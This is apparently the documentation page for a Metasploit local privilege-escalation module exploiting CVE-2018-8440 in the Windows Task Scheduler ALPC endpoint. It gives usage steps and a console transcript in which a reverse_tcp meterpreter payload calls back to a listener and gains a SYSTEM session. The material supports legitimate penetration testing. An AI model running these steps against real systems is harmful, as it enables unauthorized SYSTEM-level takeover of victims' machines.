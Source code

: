 ## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` because the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file.

WARNING:
The PrintConfig.dll (%windir%\system32\driverstor\filerepository\prnms003*) on the target host
will be overwritten when the exploit runs.

This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Affected Windows OS versions and related patch details can be found in the [Microsoft Advisory for CVE-2018-8440](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440).

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf5 > use exploit/windows/local/alpc_taskscheduler
msf5 exploit(windows/local/alpc_taskscheduler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/alpc_taskscheduler) > set lhost 172.22.222.136
lhost => 172.22.222.136
msf5 exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 10.0.17134.228] (c) 2018 Microsoft Corporation. Al...  172.22.222.136:4444 -> 172.22.222.200:50490 (172.22.222.200)
  2         meterpreter x64/windows  DESKTOP-IPOGIJR\lowmsfdev @ DESKTOP-IPOGIJR                                       172.22.222.136:4444 -> 172.22.222.200:50491 (172.22.222.200)

msf5 exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.22.222.136:4444
[-] Exploit aborted due to failure: none: Only meterpreter sessions are supported
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/alpc_taskscheduler) > set session 2
session => 2
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444
[*] Checking target...
[*] Target looks good... attempting the LPE exploit
[+] Process 6140 launched.
[*] Writing payload dll into process 6140 memory
[*] Reflectively injecting the exploit DLL into 6140...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:50492) at 2018-09-21 12:28:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(windows/local/alpc_taskscheduler) > set session 3
session => 3
msf5 exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444
[*] Checking target...
[-] Exploit aborted due to failure: none: Session is already elevated
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/alpc_taskscheduler) >
```

